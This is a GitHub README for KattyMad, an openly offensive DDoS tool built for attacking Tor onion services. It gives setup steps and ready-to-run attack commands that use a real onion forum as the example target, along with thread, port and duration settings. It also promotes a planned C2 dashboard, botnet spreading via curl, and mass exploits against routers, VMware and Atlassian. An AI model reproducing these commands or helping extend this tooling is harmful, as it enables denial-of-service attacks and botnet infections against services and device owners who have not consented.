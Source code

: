 # Kattymad
# v1.1
KattyMad is a tool designed to install and perform DDoS attacks over the onion protocol.  <br>
I started from a fork of "KARMA" but it was literally unmaintaned and was using old cookies concept and also network stack was performing worstly than expected.
So i started again and this time i found very useful the MHDDoS project. <br>
Im constantly editing this project because the aim is to create mass environments that can easily takeover onion networks.
Please, read the [TODO](TODO.txt) and help me.

(NB. Credits binary code is just a reverse from ascii common text)<br>
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/katty_1.png)


## Usage on Linux ##
Requirements:
You must use Python 3.9 or higher

Step:
```
git clone https://github.com/electr0lulz/kattymad
cd kattymad
sudo ./setup.sh
```
## Example
```
Use DDoS Panel   : python3 kitty.py
Use command line : python3 kitty.py <method> <target> <thread> <time>
```

## Pratical Usage on onion services ##
ATM: best methods are stomp+cookies+slow (and connections) i will include here a script call ddos.sh that require only URL+TIMING args.
```
syntax:
python3 katty.py cookie $1 0 256 proxy.txt $PORT $2
example:
python3 katty.py stomp http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 0 64 proxy.txt 256 1800 debug
or
./ddos http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 60 ##### it means 60 seconds ddos on url of cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion.
```
Where $PORT is a variable editable into your ddos.sh file, usually 80 is the best option. $1 is the url, and $2 is the timing.
About now it's automatically setted up on 256 threads. (connections don't require anything else)
CryptBB is just an onion example. Use your favorite onion url.

Soon i will remove all unused methods from previous forked version, also, you will be able to access to the C2C management where you can add all your katty servers and start attacks with all shells together.
aaaaand i'll spawn a very nice WebDashboard (now coded in PHP, but soon will be ported in golang) where you can manage your C2C, your bots without needs to open shell, have a very easy way to spread your commands with just a "DataDispatch" or to infect other linux-based systems with just a curl, and a web-exploitter based on realtek, dlink and other shitty-router platform (including some mass-exploit made by me for vmware and atlassian) allowing you to have a botnet very quickly.
Very soon multitor version and captcha bypass will be added, even if we are found a lot of problems in solving the dread-based-captcha.
##

## Dashboard Preview
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/login_katty.png)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/kattymain.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/users.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/web_manager.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/terminal_commander.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/katty_servers.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/ef440b413c8027b0ae20bf2d8d8627af5a343932/dashboard_preview/autoexploit.png)

## NB.
I wish remember to you all, especially to people who suffered paranoia attacks: this is all opensource code. You can read every fucking-single line and see that there's no encoded parameters. So no honeypot, no rat, no fucking bullshit. See you around. 
[Electr0lulz](https://github.com/electr0lulz/)